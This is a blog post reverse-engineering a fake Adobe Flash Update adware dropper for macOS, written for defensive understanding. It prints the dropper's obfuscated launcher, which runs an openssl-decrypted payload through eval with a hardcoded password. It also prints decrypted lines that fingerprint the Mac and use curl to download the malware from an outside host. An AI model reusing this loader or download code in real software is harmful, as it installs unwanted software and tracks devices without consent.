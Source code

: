 +++ 
draft = false
date = 2018-10-16T16:51:10+02:00
title = "Reverse Engineering macOS fake Adobe Flash Update"
tags = ["Reverse Engineering", "Adware", "InfoSec"]
categories = ["Blog"]
+++

## A friend goof!

The incident started with an inattentive friend who just downloaded and installed a fake Adobe Flash Update for his Macbook.
The culprit ? While browsing [izap4u.com](http://izap4u.com/) (a french website who offers compilations of funny videos), the website showed a malicious pop-up message for an update of Adobe Flash Player.
It's not the case anymore. I do hope it's over.

## Clean up the mess

He reached to me for help and I quickly advised him to install [Malwarebytes for Mac](https://www.malwarebytes.com/mac/).
This software let you easily scan and removes malware and works great on MacOS.
He installed it and launched a threat scan; obviously the scan found the malware and helped my friend erase it.

## Curiosity

I was curious about this Adware so I downloaded it too, in order to reverse it!
At first glance it's small in size [.dmg](https://en.wikipedia.org/wiki/Apple_Disk_Image) (~108KB only).
It contains a "Player_XXX.app" which is represented by the classic Flash Player icon.

Here is the package structure:
```
/Volumes/Player
❯ tree Player_061.app
Player_061.app
└── Contents
    ├── Info.plist
    ├── MacOS
    │   └── hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q
    ├── Resources
    │   ├── app4862950061.icns
    │   └── enc
    └── _CodeSignature
        ├── CodeDirectory
        ├── CodeRequirements
        ├── CodeRequirements-1
        ├── CodeResources
        └── CodeSignature

4 directories, 9 files
```

## Dig in

### First Analysis

Here we will look at two files `enc` and `hikx4NR1tZPZPZLkfhszbSF2SglR1V8iKE3Q`:
```
❯ file Player_061.app/Contents/MacOS/hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q
Player_061.app/Contents/MacOS/hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q: Bourne-Again shell script text executable, ASCII text
```
```
❯ cat Player_061.app/Contents/MacOS/hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q
#!/bin/bash
cd "$(dirname "$BASH_SOURCE")"
fileDir="$(dirname "$(pwd -P)")"
eval "$(openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:4862950061 <"$fileDir"/Resources/enc)"
```
```
❯ file Player_061.app/Contents/Resources/enc
Player_061.app/Contents/Resources/enc: ASCII text
```
*You can find base64 encrypted content here:* [`enc`](https://gist.github.com/oxynux/0221cfe7920f0a8d22ec75f5f63c3f25).


So, we have here a bash script and a base64 encoded text file.

### Decrypt `enc`

`hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q` BASH script help us to decrypt `enc` file with this command:
```
openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:4862950061 </tmp/Player/Player_061.app/Contents/Resources/enc
```
*You can see the result here (spoiler it's a bash script too!):* [`decrypted_enc.sh`](https://gist.github.com/oxynux/460e01bf0045524af8a3bced006cf1ad/7a24e26c3b851dfda4af549bd4c0f6018c2a6360).


### What does this script do?

This bash script strongly rely on the `eval` command.
But what does `eval` do ?
If you type `help eval` inside a Terminal on MacOS you will get:
```
eval: eval [arg ...]
    Read ARGs as input to the shell and execute the resulting command(s).
```
Pretty easy, right ?

So eval basicly concatenates all arguments and then executes the result as a command.
We don't want to install this Adware so we are going to replace the last `eval` by `echo` which only print out the script instead of running it: [`decrypted_enc.sh`](https://gist.github.com/oxynux/460e01bf0045524af8a3bced006cf1ad/90ccb26323a6abfd5f19dcce425cada627e76df5).

Then `chmod +x decrypted_enc.sh` and then execute it.

We obtain this (spoiler it's again a bash script! Script-ception never end): [`final_decrypted_enc.sh`](https://gist.github.com/oxynux/98636477186b97834f8300ac80e6df8b/1b73f0d053a68fe12d2bca7b5b8cdc7f1102fdad).

### Prepare the script

This script has a lot of variables, but they are not prefixed by `export ` because it's useless inside an `eval`.
So we have to slightly modify it to make it work outside an `eval`:

- We add `export` before every variable, and remove `>/dev/null 2>&1` whom silence `stderr` and `stdout`, also we add `-v` to the `curl` command for debugging purposes.

- We also want to catch all variables values of this script, so we add a `echo interesting_var=$interesting_var` for all of these. 

- Finally we want to print script lines as they are read to follow along while it's running. `set -v` allows us to do this.

- One last thing: we definitely don't want to install the Adware so we comment the last two lines -which open the malicious file and make it executable- with `#`.

Here is the final script ready to launch: [`final_decrypted_enc.sh`](https://gist.github.com/oxynux/98636477186b97834f8300ac80e6df8b/2efc9a09b588900a9a2732e7fc89dd717776f409).

### (What does this script do?)²

After this we can launch the script to understand better how it works.

Here the interesting outputs:

_MacOS version_
```
sw_vers -productVersion
os_version=10.14.1
```

_An Universally Unique IDentifier (UUID)_
```
uuidgen
session_guid=05D6295D-5A6E-43EE-BA60-D602682FAA43
```  

_The unique equipment identifier IOPlatformUUID (I have anonymized mine)_
```
echo -n "$(ioreg -rd1 -c IOPlatformExpertDevice | grep -o '"IOPlatformUUID" = "\(.*\)"' | sed -E -n 's@.*"([^"]+)"@\1@p')" | tr -dc '[[:print:]]'
machine_id=XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX
```  

_The url to download the malware: it use `$os_version`, `$session_guid` and `$machine_id`_
```
url="http://api.binarysources.com/sd/?c=_pl_GJybQ==&u=$machine_id&s=$session_guid&o=$os_version&b=4862950061"
curl -v -f0L "$url" >>$tmp_path
```  

_The .zip dowload via `$url` seems to alway have the same password_
```
unzip_password="16005926849404862950061"
unzip -P "$unzip_password" "$tmp_path" -d "$app_dir"
```  


So this script use `curl` to download the malware, it share with [query string](https://en.wikipedia.org/wiki/Query_string) the macOS version, an UUID and the IOPlatformUUID of the victim.
I think the malware is genreated thanks to this, it aims to be unique so it can dupe [Apple Gatekeeper](https://en.wikipedia.org/wiki/Gatekeeper_(macOS)).

### Side note

When I attempted to download the malware the url didn't work anymore so I couldn't continue the reverse engineering.
```
curl -v -f0L "$url" >>$tmp_path
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 88.221.14.24...
* TCP_NODELAY set
* Connected to api.binarysources.com (88.221.14.24) port 80 (#0)
> GET /sd/?c=_pl_GJybQ==&u=XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX&s=05D6295D-5A6E-43EE-BA60-D602682FAA43&o=10.14.1&b=4862950061 HTTP/1.0
> Host: api.binarysources.com
> User-Agent: curl/7.62.0
> Accept: */*
>
* The requested URL returned error: 404 Not Found
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
* Closing connection 0
curl: (22) The requested URL returned error: 404 Not Found
```

## Conclusion

Be vigilant when you surf the internet and don't type your password when your are not sure about installer safety.